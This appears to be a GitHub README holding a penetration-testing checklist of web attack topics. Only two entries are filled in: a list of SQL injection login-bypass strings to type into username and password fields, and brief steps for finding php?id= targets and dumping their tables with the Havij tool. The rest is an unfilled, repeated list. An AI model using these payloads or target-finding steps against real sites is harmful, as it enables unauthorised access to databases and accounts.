 # Penetration-Testing

* Penetration Testing Checklist: https://github.com/mdrrifat/Penetration-Testing-Checklist

- [ ] Basic SQL Injection                                                                                                      
- [ ] Havij                                                                                                                               
- [ ] OSINT                                                                                                                       
- [ ] XSS Vulnerability                                                                                                   
- [ ] Season Hijacking                                                                                                  
- [ ] Manual SQL Injection                                                                                              
- [ ] SQLi WAF                                                                                                            
- [ ] LFI Vulnerability                                                                                                 
- [ ] Advance LFI (LFI to RCE)                                                                                     
- [ ] Web Shell Upload                                                                                                   
- [ ] CSRF Vulnerability                                                                                                    
- [ ] Kali Linux Tools                                                                                                                 
- [ ] Penetration Testing                                                                                                     


 
- [ ] Basic SQL Injection                                                                                                      
SQL injection is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution. SQL injection must exploit a security vulnerability in an application's software, for example, when user input is either incorrectly filtered for string literal escape characters embedded in SQL statements or user input is not strongly typed and unexpectedly executed.

Use This in Username and Password:
1'or'1'='1
' or 1=1#
or 1=1--
or 1=1#
or 1=1/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or 1=1
admin' or 1=1--

- [ ] Havij                                                                                                                               
Havij is a popular and controversial automated SQL injection tool that was used primarily for penetration testing and ethical hacking purposes. SQL injection is a type of cybersecurity vulnerability that can allow attackers to manipulate a web application's database by injecting malicious SQL code. Havij was designed to automate the process of finding and exploiting SQL injection vulnerabilities in web applications.

*Steps:

- [php?id= link] then [php?id=num] we get then - havij
- php?id= link
- php?id= site:link
- http://link/news.php?id=7 
- Target-analyze-table-get tables-get column

- [ ] OSINT                                                                                                                       
- [ ] XSS Vulnerability                                                                                                   
- [ ] Season Hijacking                                                                                                  
- [ ] Manual SQL Injection                                                                                              
- [ ] SQLi WAF                                                                                                            
- [ ] LFI Vulnerability                                                                                                 
- [ ] Advance LFI (LFI to RCE)                                                                                     
- [ ] Web Shell Upload                                                                                                   
- [ ] CSRF Vulnerability                                                                                                    
- [ ] Kali Linux Tools                                                                                                                 
- [ ] Penetration Testing   
